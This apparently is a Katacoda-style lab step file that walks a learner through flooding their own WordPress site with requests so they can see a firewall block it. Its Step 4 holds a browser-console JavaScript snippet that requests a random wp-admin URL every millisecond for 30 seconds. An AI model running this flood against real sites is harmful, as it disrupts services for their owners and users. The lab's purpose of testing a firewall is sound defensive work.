




## **Enforce the DDoS to test the check the traffic control of the firewall**
---

### **Step 1:** 

Access your own WordPress website in Google Chrome using the link:
`https://[[HOST_SUBDOMAIN]]-8000-[[KATACODA_HOST]].environments.katacoda.com `{{copy}}

  

### **Step 2:** 
Right click and click `inspect` button to open the inspect of the Google 

  

### **Step 3:** 
click the Console button to access the console:

  

### **Step 4:** 
Copy the following command and paste it in the console and click enter:

`
function imgflood() { 
  let URI = '/wp-admin/DDoS.php?'
  let pic = new Image()
  let rand = Math.floor(Math.random() * 1000)
  pic.src = window.location.origin+URI+rand+'=val'
}

let DDoSTimer = setInterval(imgflood, 1); //Run it every 1 ms

setTimeout(() => clearInterval(DDoSTimer), 30000); //Stop running in 30 sec
`{{copy}}

  

### **Step 4:** 
Refresh the page after the DDoS command run and you can the Firewall block the DDoS attack which sends more than 1000 request successfully:

